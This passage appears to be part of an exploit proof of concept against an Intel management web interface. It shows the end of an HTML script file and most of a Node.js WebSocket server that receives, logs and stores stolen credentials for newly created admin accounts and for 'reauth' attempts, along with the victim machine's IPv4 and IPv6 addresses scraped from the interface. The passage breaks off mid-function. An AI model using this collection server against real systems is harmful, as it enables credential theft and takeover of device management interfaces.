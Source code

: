 ```html
        </script>
    </body>
</html>
```


## Websocket Server File (ws-server.mjs)

```javascript
// npm i ws cheerio
import { WebSocketServer } from 'ws';
import * as cheerio from 'cheerio';

import fs from 'fs';

// In Memory Database of credentials
let RESULTS = {};

// Credentials for newly created admin users
RESULTS.newAdminCredentials = [];

// Credentials for reauth attempts
RESULTS.reauthCredentials = [];

const START = new Date();
const wss = new WebSocketServer({ port: 8080 });

// This function handles messages from the client denoting
// a new admin has been created.
function handleNewAdmin (msg) {
    
    // Log a bunch of stuff to the console.
    console.log("---BEGIN NEW ADMIN CREDENTIALS---");
    console.log(`New Credentials: ${msg.username}:${msg.password}`);
    
    const netInfo = handleInfo(msg.info);
    console.log("---END NEW ADMIN CREDENTIALS---");
    console.log();

    // Save to In Memory Database.
    RESULTS.newAdminCredentials.push( { username: msg.username, password: msg.password, netInfo: netInfo });
}

// Server side parsing of infoHtml which contains
// IPv4 and IPv6 addresses.
// Brittle and might break if any changes are introduced to 'index.htm' by Intel.
function handleInfo (info) {
    const $ = cheerio.load(info);
    const infos = $('td.r1').map(function() {
        return $(this).text();
    }).get();

    // Log a bunch of stuff to the console.
    console.log(`IPv4: ${infos[3]}`);
    console.log(`IPv6: ${infos[5]}`);

    return { ipv4: infos[3], ipv6: infos[5] };
}

// Handle message from client denoting
// a reauthentication attempt has occurred.
function handleReauth (msg) {
```